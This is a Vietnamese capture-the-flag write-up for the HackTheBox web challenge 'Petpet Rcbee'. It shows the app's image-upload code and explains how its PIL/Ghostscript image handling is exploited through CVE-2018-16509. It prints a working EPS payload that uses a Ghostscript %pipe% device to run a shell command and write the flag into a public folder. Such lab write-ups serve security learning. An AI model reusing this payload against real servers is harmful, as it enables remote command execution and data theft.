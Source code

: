```yaml
---
title: HTB Petpet Rcbee
author: HoangND
date: 2021-09-05 08:51:00 +0700
categories: [Writeups, HackTheBox]
tags: [writeups, hackthebox]
---
```


Petpet rcbee là một web challenge. Giao diện chính đầy những chú ong 🐝 🐝. Sau khi xem xét thì dường như trang web chỉ có một chức năng duy nhất là upload 1 ảnh sau đó 'pet' ảnh đó

![image](https://user-images.githubusercontent.com/61985236/132112457-f6c6f3b3-45cf-4de4-a1c1-91f03404a76f.png)

Oke kiểm tra source code xem có gì có thể lợi dụng để RCE thông qua file được tải lên hay không

```python
def petpet(file):

    if not allowed_file(file.filename):
        return {'status': 'failed', 'message': 'Improper filename'}, 400

    try:
        
        tmp_path = save_tmp(file)

        bee = Image.open(tmp_path).convert('RGBA')
        frames = [Image.open(f) for f in sorted(glob.glob('application/static/img/*'))]
        finalpet = petmotion(bee, frames)

        filename = f'{generate(14)}.gif'
        finalpet[0].save(
            f'{main.app.config["UPLOAD_FOLDER"]}/{filename}', 
            save_all=True, 
            duration=30, 
            loop=0, 
            append_images=finalpet[1:], 
        )

        os.unlink(tmp_path)

        return {'status': 'success', 'image': f'static/petpets/{filename}'}, 200

    except:
        return {'status': 'failed', 'message': 'Something went wrong'}, 500
```

Ảnh sau khi được tải được xử lý bằng hàm petpet. 
Bên trong thực hiện các thao tác như lưu ảnh vào file tạm, generate một ảnh gif dựa trên ảnh này, sau đó đưa nó vào thư mục theo đường dẫn là biến UPLOAD_FOLDER ở trong config. 
Cuối cùng là xóa ảnh trong tmp.
Trang web này sử dụng một thư viện là PIL để xử lý ảnh, để xem PIL có CVE nào k :)). 
Sau khi xem xét một vòng thì có 1 CVE liên quan đến PIL và Ghostscript để RCE là [CVE-2018-16509](https://store.vsplate.com/en/post/141/), check lại thì bên trong file docker có tồn tại cái gọi là Ghostscript thật.

![image](https://user-images.githubusercontent.com/61985236/132112621-6aa6440d-069f-4f3d-98d6-ac8464924feb.png)

Sử dụng luôn craft image của CVE, chạy thử trên local

![image](https://user-images.githubusercontent.com/61985236/132112641-0d615a6f-1183-4c0c-8e83-5d2cc5f5d787.png)

Oke vậy là đã RCE được, bây giờ cần làm thế nào để đọc được flag được dấu bên trong. Để ý răng có một đường dẫn tệp được public là biến UPLOAD_FOLDER (/static/petpets/) 🤟.
Vậy chỉ cần đọc file flag và ghi vào một file bất kỳ trong này là xong.

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > application/static/petpets/test.txt) currentdevice putdeviceprops
```

![image](https://user-images.githubusercontent.com/61985236/132112752-4583ab37-3e83-4e77-9d83-bfde6b024c67.png)

